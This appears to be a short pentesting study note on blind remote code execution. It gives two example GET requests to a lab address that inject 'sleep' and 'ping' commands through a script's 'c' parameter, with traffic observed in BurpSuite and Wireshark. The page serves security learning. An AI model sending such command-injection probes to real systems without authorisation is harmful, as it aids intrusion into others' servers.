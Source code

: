 ```yaml
---
title: RCE attack - Remote Code Execution
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


# RCE attack - Remote Code Execution

_RCE_ attacks involve attackers manipulating network traffic by exploiting code vulnerabilities to access a corporate system.

Exploiting Blind Remote Execution Vulnerability attack in a GET request in BurpSuite (to run the queries) and Wireshark (to capture the traffic).

```
________
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
Host 192.168.137.130
User Agent....
...
________
```


Also other command:

```
GET /script.php?c=ping+192.168.139.130+-c+5&ok=ok HTTP/1.1
```


